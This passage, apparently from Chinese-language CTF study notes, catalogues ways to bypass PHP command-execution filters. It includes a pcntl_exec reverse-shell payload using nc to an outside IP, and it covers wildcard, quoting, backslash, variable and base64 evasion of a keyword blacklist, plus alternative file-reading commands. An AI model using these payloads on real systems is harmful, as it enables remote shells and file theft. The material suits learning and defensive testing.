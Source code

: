 ```cmd=pcntl_exec("/bin/bash",array("-c","nc 192.168.59.128 33333 -e /bin/bash"));```
1. **通配符 ？ *** 绕过         ?匹配任意单字符相当于正则的 \.    \*匹配任意字符串，相当于正则的\.\*

   通配符和正则语法对比

   | 功能         | 通配符写法 | 正则表达式写法 | 区别说明                 |
   | :----------- | :--------- | :------------- | :----------------------- |
   | 匹配任意字符 | `?`        | `.`            | 通配符 `?` = 正则的 `.`  |
   | 匹配任意数量 | `*`        | `.*`           | 通配符 `*` = 正则的 `.*` |
   | 匹配字符组   | `[abc]`    | `[abc]`        | 语法相同                 |
   | 匹配范围     | `[a-z]`    | `[a-z]`        | 语法相同                 |
   | 排除字符     | `[!abc]`   | `[^abc]`       | 通配符用 `!`，正则用 `^` |

2. **单引号**，**双引号**绕过        `cat /fl''ag`

3. **反斜杠  `\`** 绕过 `cat /fl\ag.t\xt`          `\`表示转义 (也可以充当换行，要出现在行尾)

4. **特殊变量**：$1到$9  $@和$*等   `cat /fl$1ag.t$9xt`

5. **内联执行**  自定义字符串，再拼接
   `a=f;b=la;c=g;cat $a$b$c.txt`表示`cat flag.txt`

6. 利用linux中的环境变量
   `echo $PATH`
   `/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/games:/usr/games`
   `echo f${PATH:5:1}`   `fl`

## 9：常用文件读取命令绕过（同8）

preg_match("/flag|php|cat|sort|shell|\\\'/i",$cmd)

可以使用**8中方法**绕过正则

**一些可以读取文件的linux指令如下，过滤不严可以使用**

1. tac：反向显示
2. more：一页一页显示
3. less：与more类似
4. tail：显示末尾几行
5. nl：显示并输出行号
6. od：以二进制读取
7. xxd：和od类似
8. sort：主要用于排序文件
9. uniq：删除或报告重复的行
10. file  -f：通过报错查看具体内容
11. grep：查找指定字符串

## 10：编码绕过

```python
import base64

a = b'cat flag.php'
b = base64.b64encode(a)
print(b)
#b=b'Y2F0IC9mbGFnLnBocA=='
```
